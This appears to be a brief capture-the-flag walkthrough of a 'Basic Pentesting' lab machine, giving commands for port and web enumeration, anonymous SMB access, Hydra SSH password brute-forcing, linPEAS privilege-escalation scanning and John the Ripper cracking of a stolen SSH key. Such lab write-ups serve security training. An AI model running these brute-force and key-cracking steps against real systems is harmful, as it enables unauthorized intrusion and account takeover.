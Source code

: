 # Basic Pentesting

> thegurpreet | Mar 2021

## Service Enumeration

Scanning ports using nmap
```
sudo nmap -sV -sC $ip
```

## Web directory Enumeration

```
sudo gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

## Samba Enumeration

Use enum4linux to enumerate
```
enum4linux -a $ip | tee enum4linux.log
```

Mound and access anon SMB share
```
sudo mount //$ip/Anonymous /media/test/
cat /media/test/staff.txt
```

### SSH brute forcing

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$ip
```

### Privilege Escalation

Download linpeas script to source machine first and then transfer using SCP
```
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh > linpeas.sh
scp linpeas.sh jan@10.10.89.2:/dev/shm
```

Execute linpeas on target machine
```
chmod +x /dev/shm/linpeas.sh
sh linpeas.sh
```

Look for SSH keys section
```
[+] Looking for ssl/ssh files
Possible private SSH keys were found!
```

Use john the ripper for brute forcing pass-phrase
```
/usr/share/john/ssh2john.py kay_id_rsa > kay_id_rsa_forjohn.txt
sudo john kay_id_rsa_forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Login with captured information and read the final file
```
chmod 600 kay_id_rsa
ssh -i kay_id_rsa kay@$ip
cat pass.bak
```

